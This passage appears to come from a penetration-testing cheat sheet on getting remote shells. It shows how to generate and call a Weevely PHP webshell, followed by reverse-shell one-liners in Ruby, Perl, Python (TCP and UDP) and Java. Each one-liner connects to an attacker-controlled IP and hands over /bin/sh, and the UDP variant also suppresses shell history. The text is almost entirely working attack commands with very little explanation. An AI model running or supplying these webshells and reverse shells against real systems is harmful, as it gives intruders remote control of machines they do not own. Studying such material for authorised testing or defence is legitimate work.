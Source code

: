 Weevely also generates a webshell

```none
weevely generate password /tmp/payload.php
```

which can then be called by

```none
weevely http://192.168.1.2/location_of_payload password
```

However, it was not as useful as php meterpreter or a reverse shell.

```none
.. Todo:: Elobrate -> why wasn't it useful? iirc (really not sure) if you don't provide a password it will ask for it
```

### Ruby

```none
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Perl

```none
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

TCP

```none
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

UDP

```none
import os,pty,socket;s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM);s.connect(("10.10.14.17", 4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE",'/dev/null');pty.spawn("/bin/sh");s.close()
```

### Java

```none
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
